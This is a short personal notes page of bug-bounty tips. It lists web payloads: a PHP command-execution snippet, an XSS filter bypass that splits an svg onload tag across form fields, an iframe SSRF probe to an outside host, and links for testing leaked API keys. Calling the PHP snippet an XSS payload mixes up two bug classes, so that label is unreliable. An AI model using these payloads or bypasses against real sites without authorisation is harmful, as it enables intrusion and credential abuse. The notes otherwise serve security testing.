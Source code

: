 ```yaml
---
layout: page
title: Notes
cover-img: /assets/img/notes.jpg
subtitle: Notes and thoughts
---
```


Date: 27-02-2021

1. Use this as payload, when it is vulnerable to xss: `<?php system('whoami'); ?>` [link](https://amakki.me/how-i-made-15k-from-remote-code-execution-vulnerability-2e1b14b3902a)

2. If WAF blocked your payload, you can bypass it by separating the payload. [link](https://twitter.com/AMakki1337/status/1478048809217400837)

    First Name: `<svg`

    Last Name: `onload=alert(1)>`

    Name: `<svg onload=alert(1)>`

3. This can be a payload for SSRF: `<iframe src=’https://labs.amakki.me’>` [link](https://amakki.me/full-ssrf-by-exporting-pdf-bbe1bfde24c4)

4. Got some api keys, let's check this [KeyHacks](https://github.com/streaak/keyhacks) 

5. Another nice payload for XSS: [link](https://brutelogic.com.br/poc.svg)

